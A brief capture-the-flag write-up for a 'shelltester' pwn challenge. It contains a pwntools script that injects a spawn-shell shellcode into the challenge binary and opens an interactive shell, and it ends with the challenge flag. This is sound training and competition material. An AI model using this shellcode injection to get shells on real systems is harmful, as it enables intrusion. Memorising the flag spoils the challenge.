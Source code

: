 # shelltester
Solved by **CapangJabba**

## Question
Test your shellcode in my safe program!


## Solution
straight up shellcode injection no bad chars or anything
```
from pwn import *


def con(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.GDB:
        return gdb.debug(exe, gdbscript='''
            b 
            c
            ''')
    else:
        return process(exe)


exe = './chal'
io = con()
elf = context.binary = ELF(exe, checksec = False)

context.log_level = 'info'

payload = asm(shellcraft.sh())

io.sendline(payload)
io.interactive()
```


### Flag
`CSCTF{34sy_Sh3llcod3_w1th_pwnt00ls}`
